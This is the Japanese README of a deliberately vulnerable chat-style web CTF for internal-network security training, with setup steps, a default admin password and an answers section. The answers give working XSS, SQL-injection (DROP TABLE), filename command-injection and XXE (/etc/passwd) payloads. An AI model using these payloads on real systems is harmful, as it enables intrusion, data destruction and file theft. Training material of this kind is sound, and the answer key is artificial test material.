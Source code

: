 # chat-ctf (公開サーバでの利用はしないでください)
chatアプリケーション風WebCTFサイト。
内部ネットワーク内での利用を想定した、セキュリティ教材です。

## 依存
- docker-compose
- mkcert
- sqlite3

## 起動手順

```sh
$ git clone https://github.com/TakuKitamura/chat-ctf.git
$ cd chat-ctf
$ sudo docker compose up -d
$ vim src/.env.development # 適切なものを設定。
$ # cookei-passwordについて。https://nextjs.org/docs/basic-features/environment-variables#loading-environment-variables
$ # IPは、サーバのIPアドレス
SECRET_COOKIE_PASSWORD=cookie-password
IP=192.168.1.x
$ vim src/.env.production # 適切なものを設定
SECRET_COOKIE_PASSWORD=cookie-password
IP=192.168.1.x
$ cd src
$ ./setup-db.sh # Admin/Adm1nAdm1n というテストアカウントも追加されます。
$ mkcert 192.168.1.x
$ cd ..
$ sudo docker compose exec app yarn install
$ sudo docker compose exec app yarn build && sudo docker compose exec app yarn start
$ # or
$ sudo docker compose exec app yarn dev
```
https://192.168.1.x/login でログインできます。

https://192.168.1.x/signup でアカウントを作成できます。

CSVファイルからのアカウント一括作成も可能です。

```sh
$ vim /tmp/user.csv # 一例
UserID,Password,IconURL
Test1,Maixuo7p,https://example.com/1.jpg
Test2,eoch2ieP,https://example.com/2.jpg
$ cd chat-ctf/src
$ ./add-users.sh -f /tmp/user.csv -i 192.168.1.x
```

### Adminアカウント専用機能
- Adminアカウント(`Admin/Adm1nAdm1n`)でログインし、適当なテキストボックスで`/reset-chat`と入力するとchatデータがDBから削除される。画面更新をすると、chat履歴が消えていることを確認できる。

---

# 回答

### URLリンク作成 Bot [XSS]

以下の入力を行いEnter
```
url=javascript:alert()
label=hoge
```

### FizzBuzz Bot [XSS]

https://192.168.1.x?q=%3Cimg%20src=%22x%22%20onerror=%22alert()%22%3E

というようなURLにアクセスし。

以下の入力を行いEnter
```
n=200
```

### アーティスト検索 Bot [SQL Injection]

```
search=santana
n='; DROP TABLE user; --
```

### グレースケール変換 Bot [OS Command Injection]

アップロードする画像のファイル名を例えば以下に変え、アップロードする。
```
example`sleep 3`.jpg
```

### Excel解析 Bot [XXE]

適当なGoogleスプレッドシートを作成し、Microsoft Excel形式でダウンロード。ファイル名をexample.xlsxとする。
以下のように細工したファイルを作成する。

```sh
$ mkdir tmp
$ mv example.xlsx tmp
$ cd tmp
$ unzip example.xlsx
$ ls
[Content_Types].xml  _rels  example.xlsx  xl
$ cat xl/sharedStrings.xml # 出力結果は例
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="8" uniqueCount="4"><si><t>AAA</t></si><si><t>BBB</t></si><si><t>CCC</t></si><si><t>DDD</t></si></sst>
$ vim xl/sharedStrings.xml # 例
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [ 
    <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="8" uniqueCount="4"><si><t>&xxe;</t></si><si><t>BBB</t></si><si><t>CCC</t></si><si><t>DDD</t></si></sst>
$ zip -r crafted.xlsx '[Content_Types].xml' _rels xl
  adding: [Content_Types].xml (deflated 71%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 40%)
  adding: xl/ (stored 0%)
  adding: xl/workbook.xml (deflated 58%)
  adding: xl/worksheets/ (stored 0%)
  adding: xl/worksheets/sheet1.xml (deflated 64%)
  adding: xl/worksheets/_rels/ (stored 0%)
  adding: xl/worksheets/_rels/sheet1.xml.rels (deflated 40%)
  adding: xl/drawings/ (stored 0%)
  adding: xl/drawings/drawing1.xml (deflated 66%)
  adding: xl/styles.xml (deflated 61%)
  adding: xl/theme/ (stored 0%)
  adding: xl/theme/theme1.xml (deflated 78%)
  adding: xl/_rels/ (stored 0%)
  adding: xl/_rels/workbook.xml.rels (deflated 66%)
  adding: xl/sharedStrings.xml (deflated 26%)
```

crafted.xlsxをアップロードする。
